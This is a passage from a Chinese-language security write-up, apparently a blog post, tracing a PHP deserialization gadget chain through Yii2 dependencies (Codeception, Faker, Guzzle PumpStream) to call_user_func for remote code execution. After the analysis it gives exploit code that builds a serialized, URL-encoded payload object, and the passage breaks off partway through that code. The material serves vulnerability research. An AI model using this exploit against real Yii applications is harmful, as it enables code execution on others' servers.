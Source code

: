 ![image-20211010152824604](images/18.png)

继续跟进

![image-20211010152840742](images/19.png)

这里又可以转向其他类的read函数

```
vendor/guzzlehttp/psr7/src/PumpStream.php
```

![image-20211010152916665](images/20.png)

跟进pump

![image-20211010152933402](images/21.png)

存在危险函数call_user_func

`$this->source`是可控的,不过`$length`刚才一路跟过来发现并不可控

不过和第三条链相似的,可以利用yii的依赖进行rce

## 漏洞复现

exp

```
<?php
namespace Codeception\Extension{
    use Faker\DefaultGenerator;
    use GuzzleHttp\Psr7\AppendStream;
    class  RunProcess{
        protected $output;
        private $processes = [];
        public function __construct(){
            $this->processes[]=new DefaultGenerator(new AppendStream());
            $this->output=new DefaultGenerator('TOWN');
        }
    }
    echo urlencode(serialize(new RunProcess()));
}

namespace Faker{
    class DefaultGenerator
{
    protected $default;

    public function __construct($default = null)
    {
        $this->default = $default;
}
}
}
namespace GuzzleHttp\Psr7{
    use Faker\DefaultGenerator;
    final class AppendStream{
        private $streams = [];
        private $seekable = true;
        public function __construct(){
            $this->streams[]=new CachingStream();
        }
    }
    final class CachingStream{
        private $remoteStream;
```